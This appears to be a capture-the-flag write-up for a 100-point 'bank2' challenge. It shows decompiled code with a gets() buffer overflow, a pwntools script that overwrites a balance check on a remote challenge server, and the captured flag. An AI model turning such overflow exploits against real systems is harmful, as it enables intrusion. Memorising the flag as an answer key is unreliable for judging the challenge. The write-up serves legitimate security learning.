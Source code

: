 ## bank2 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30203

author: xikhud
```

Open `bank2` with IDA:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 420420 )
    getFlag();
}
```

```cpp
void getFlag()
{
  system("cat flag.txt");
}
```

We use buffer overflow to overwrite `balance` with 420420 to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30203)
conn.sendlineafter("name:", b'a' * 64 + p32(420420))
conn.interactive()
```

**Flag:** `HCMUS-CTF{little_endian_is_fun}`

